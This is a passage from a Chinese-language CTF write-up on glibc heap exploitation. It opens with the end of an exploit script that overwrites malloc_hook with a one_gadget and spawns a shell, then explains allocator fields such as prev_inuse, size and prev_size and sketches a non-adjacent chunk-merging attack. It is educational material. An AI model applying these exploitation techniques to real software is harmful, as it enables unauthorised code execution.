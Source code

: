 ```
#x = input("pause")

#hijack
newz() #idx.9
#now we hold idx.1&amp;9 pointing chunk1
delet(0) #passby counts check
delet(1)
delet(9)
new(0x10,p64(malloc_hook))
newz()
new(0x10,p64(onegadget))

#fire
#according to the logic that size is inputed after malloc
delet(2) #passby idxtable full check
#x = input("fucking")
r.recvuntil("?n&gt; ")
r.sendline("1")
r.interactive()
```

-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·

### 四、exp详解

1.细节问题：就是该题的索引表存储上限只有10个，exp执行过程中要时刻注意是否满了，以保证能通过索引表填满的检查

2.exp1个人感觉没啥大问题，读者自己读一下exp代码、注释，跟着调一下问题应该不大

3.exp2读者如果有问题的话，我猜应该是和size、presize、preinuse这三个关键字段是在何时设置有关，因为这直接影响到能否通过诸多检查，我们在下面“特性补充”部分单独说

### 五、特性补充

#### 一、

1.preinuse位何时置零：仅在前块link入unsorted bin过程中置零

2.size字段何时设置：仅在①alloc过程中设置 ②合并过程中合并后link入unsorted bin前设置

*3.presize字段何时设置：仅在前块link入unsorted bin过程中设置

4.单独的unlink动作不对后块preinuse位置1

5.堆块合并过程：先unlink前块，再合并，再link入unsorted bin

6.堆块合并过程中，指针变化和合并后的size计算是以用户free的那个块为中心，而前面提到的size==next.presize检查则是以被合并的前块为中心：堆块指针在合并后直接用presize值前推偏移，新size也是用户free块的size直接加上presize，而新增检查则是以前块为中心的

#### 二、因此，我们的exp2实现隔块合并攻击的思路就是：

1.制造仨chunk全都free合并入unsorted bin：这时chunk3的presize为2*chunk

2.再把它们分配出来

3.chunk1给free进unsorted bin：①隔块合并它的时候能天然绕过bk、fd那个检查 ②chunk2的presize为1*chunk

